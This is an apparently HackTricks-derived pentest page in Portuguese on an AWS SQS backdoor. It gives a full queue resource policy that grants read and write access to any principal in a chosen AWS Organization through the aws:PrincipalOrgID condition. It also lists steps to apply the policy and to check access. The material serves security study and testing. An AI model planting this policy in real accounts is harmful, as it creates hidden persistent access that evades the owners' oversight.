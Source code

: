 # AWS - SQS OrgID Policy Backdoor

{{#include ../../../../banners/hacktricks-training.md}}

Abuse uma resource policy da fila SQS para conceder silenciosamente as ações Send, Receive e ChangeMessageVisibility a qualquer principal que pertença a uma AWS Organization alvo usando a condição aws:PrincipalOrgID. Isso cria um caminho oculto com escopo por organização que frequentemente evita controles que procuram apenas ARNs explícitos de conta ou role ou princípios curinga.

### Backdoor policy (anexar à policy da fila SQS)
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OrgScopedBackdoor",
"Effect": "Allow",
"Principal": "*",
"Action": [
"sqs:ReceiveMessage",
"sqs:SendMessage",
"sqs:ChangeMessageVisibility",
"sqs:GetQueueAttributes"
],
"Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
"Condition": {
"StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
}
}
]
}
```
### Passos
- Obtenha o ID da organização usando a AWS Organizations API.
- Obtenha o ARN da fila SQS e defina a política da fila incluindo a declaração acima.
- A partir de qualquer principal que pertença a essa organização, envie e receba uma mensagem na fila para validar o acesso.

### Impacto
- Acesso oculto em toda a organização para ler e gravar mensagens SQS a partir de qualquer conta na AWS Organization especificada.

{{#include ../../../../banners/hacktricks-training.md}}
